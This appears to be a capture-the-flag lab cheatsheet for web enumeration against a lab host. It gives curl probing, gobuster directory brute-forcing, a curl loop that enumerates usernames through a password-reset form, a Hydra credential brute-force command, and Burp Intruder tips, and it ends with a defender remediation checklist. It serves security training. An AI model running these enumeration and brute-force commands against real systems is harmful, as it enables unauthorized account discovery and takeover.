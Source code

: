 # Cheatsheet — Quick commands & regex

## Recon & probing
```markdown
# Host discovery (already provided by room)
# HTTP headers
curl -I http://enum.thm

# Full request
curl -v http://enum.thm/login
```

## Directory / file discovery
```markdown
gobuster dir -u http://enum.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```
## Username / password enumeration
```markdown
# Simple curl loop (password reset/login)
for u in $(cat usernames.txt); do curl -s -X POST -d "username=$u" http://enum.thm/forgot-password | grep -i "sent" && echo "FOUND $u"; done


# Hydra (HTTP form / basic)
hydra -L usernames.txt -P passwords.txt enum.thm http-get /protected
```
## Burp Intruder tips

- Use clusterbomb/username list in position, grep for distinct response strings.

- Set a reasonable throttle and use a small list first.

## Regex examples for parsing

- Extract token from HTML: token=([A-Za-z0-9_-]{8,})

- Check for email: ([a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,})

## Remediation checklist (for defenders)

- Return uniform error messages on login/password-reset.

- Implement rate-limiting + lockout for repeated failed attempts.

- Use cryptographically secure, single-use, time-limited tokens for resets.

- Enforce strong password policies and MFA for sensitive accounts.
